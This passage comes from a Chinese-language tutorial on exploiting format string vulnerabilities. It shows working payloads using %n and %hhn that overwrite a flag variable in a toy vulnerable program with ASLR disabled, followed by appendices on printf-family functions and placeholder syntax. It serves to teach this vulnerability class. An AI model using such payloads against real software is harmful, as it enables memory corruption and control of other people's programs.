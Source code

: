 ```text
$ python -c 'print "\x28\xa0\x04\x08" + "%4$103d%6$n"' > text
$ ./a.out < text
(�                                                                                                      1Success!
```

然后再说一个，这里是一次性写4个字节，如果我们想写其它大小个字节呢。这时我们就会用到格式化占位符中的 [Length]。这里我们用写一个字节举例：将上面 vuln 程序的条件改为 flag == 0x7777，格式化字符串则为 `\x29\xa0\x04\x08%4$115d%6$hhn`。

```text
$ python -c 'print "\x29\xa0\x04\x08" + "%4$115d%6$hhn"' > text
$ ./a.out < text
)�                                                                                                                  1Success!
```

## 写在最后

上面是关闭 ASLR、x86 程序的情况，x86_64 程序的利用类推就行。只要注意在 Linux 下它前6个参数通过 rdi、rsi、rdx、rcx、r8、r9 6个寄存器传递，Windows 下前4个参数通过 rcx、rdx、r8、r9 来传递。

## 附录A：常见格式化函数

| 函数 | 基本介绍 |
| --- | --- |
| int printf(const char *format, ...); | 输出到标准输出 stdout |
| int fprintf(FILE *stream, const char *format, ...); | 输出到指定 FILE 流 |
| int sprintf(char *str, const char *format, ...); | 输出到字符串 |
| int snprintf(char *str, size_t size, const char *format, ...); | 长度检测后输出到字符串 |
| int vprintf(const char *format, va_list arg); | 使用参数列表输出到标准输出 stdout。 |
| int vfprintf(FILE *stream, const char *format, va_list arg); | 使用参数列表输出到流 stream 中 |
| int vsprintf(char *str, const char *format, va_list arg); | 使用参数列表输出到字符串 |
| int vsnprintf(char *str, size_t size, const char *format, va_list arg); | 长度检测后使用参数列表输出到字符串 |

格式化函数不只是用来输出，另外还有像：scanf、setproctitle、syslog、err、verr、warn、vwarn、……

## 附录B：常用格式化占位符

格式化占位符（format placeholder）也就是我们以往用到的 %d、%x、%c、%s、……，其具体语法如下:

> %[parameter][flags][field width][.precision][length]type

这里只列出下面将用到的几个，其它可看[Wikipedia](https://en.wikipedia.org/wiki/Printf_format_string)。

先是 [parameter] 的 n$，用来指明是第几个参数。例如：`printf("%2$c", 'a', 'b', 'c');` 输出出来的就是 `b`。

[flag] 先不管，[field width] 是用来给出显示数值的最小宽度，正常情况下一般是用于制表输出时填充固定宽度的表目，而我们则是结合 %n 来进行修改内存的操作。例子如下：

